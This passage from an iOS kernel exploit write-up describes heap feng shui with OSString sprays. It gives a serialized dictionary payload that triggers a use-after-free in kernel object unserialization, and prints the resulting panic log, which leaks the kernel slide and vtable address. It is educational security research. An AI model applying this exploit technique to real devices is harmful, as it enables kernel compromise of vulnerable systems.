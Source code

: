 - When our program starts, there could be any number of nodes from any memory page in the kalloc.32 freelist. But once all nodes in the freelist are used up and a new page is mapped, all nodes in the freelist will be from that page. So the first thing we do is allocate a lot of strings. (I used 255 strings here.)
- Next we're gonna allocate some more strings, always alternating between a bunch (I chose 64) and only one in the dictionary. And we're gonna do that a couple of times too (I did 16 each).
- Then we're gonna release all clients with a single string in their dictionary, thus "poking holes" into the heap, in a way that each hole is pretty likely to be surrounded by `OSString` objects.

Visualized again:

![Heap Feng Shui](assets/img/heap3.svg)

(The dictionaries to achieve this are straightforward and make no use of any bugs so far.)

Now we're gonna parse a rather simple dictionary:

    uint32_t dict[5] =
    {
        kOSSerializeMagic,                                              // Magic
        kOSSerializeEndCollection | kOSSerializeDictionary | 2,         // Dictionary with 2 entries

        kOSSerializeString | 4,                                         // String that'll get freed
        *((uint32_t*)"str"),
        kOSSerializeEndCollection | kOSSerializeObject | 1,             // Call ->retain() on the freed string
    };

`kOSSerializeString` will cause an `OSString` to get allocated, hopefully in one of those lonely holes we've punched into the heap, and when it is freed again shortly after, we're left with `objsArray[1]` holding a pointer to that chunk of memory that is surrounded by allocated `OSString`s.  
`kOSSerializeObject` will then attempt to call `retain()` on that chunk of freed memory, thus unfolding the process explained above, ultimately causing a kernel panic and logging the vtable address in the panic log:

    panic(cpu 0 caller 0xffffff801befcc1c): "Kernel instruction fetch abort: pc=0xffffff801c2ef1f0 iss=0xf far=0xffffff801c2ef1f0. Note: the faulting frame may be missing in the backtrace."
    Debugger message: panic
    OS version: 13G34
    Kernel version: Darwin Kernel Version 15.6.0: Mon Jun 20 20:10:22 PDT 2016; root:xnu-3248.60.9~1/RELEASE_ARM64_S8000
    iBoot version: iBoot-2817.60.2
    secure boot?: YES
    Paniclog version: 5
    Kernel slide:     0x0000000017e00000
    Kernel text base: 0xffffff801be04000
    Epoch Time:        sec       usec
      Boot    : 0x58225b8c 0x00000000
      Sleep   : 0x00000000 0x00000000
      Wake    : 0x00000000 0x00000000
      Calendar: 0x58225bec 0x00028e96

    Panicked task 0xffffff811d67bdc0: 78 pages, 1 threads: pid 748: cl0ver
    panicked thread: 0xffffff811f2f9000, backtrace: 0xffffff8012f03120
              lr: 0xffffff801bf043c4  fp: 0xffffff8012f03170
              lr: 0xffffff801be2e11c  fp: 0xffffff8012f031d0
              lr: 0xffffff801befcc1c  fp: 0xffffff8012f032c0
              lr: 0xffffff801befb1f0  fp: 0xffffff8012f032d0
              lr: 0xffffff801c1f0678  fp: 0xffffff8012f03720
              lr: 0xffffff801c25b4cc  fp: 0xffffff8012f03840
              lr: 0xffffff801bedaa00  fp: 0xffffff8012f038a0
              lr: 0xffffff801be194c8  fp: 0xffffff8012f03a30
              lr: 0xffffff801be27b78  fp: 0xffffff8012f03ad0
              lr: 0xffffff801befd6b0  fp: 0xffffff8012f03ba0
              lr: 0xffffff801befbd40  fp: 0xffffff8012f03c90
              lr: 0xffffff801befb1f0  fp: 0xffffff8012f03ca0
              lr: 0x00000001819b0fd8  fp: 0x0000000000000000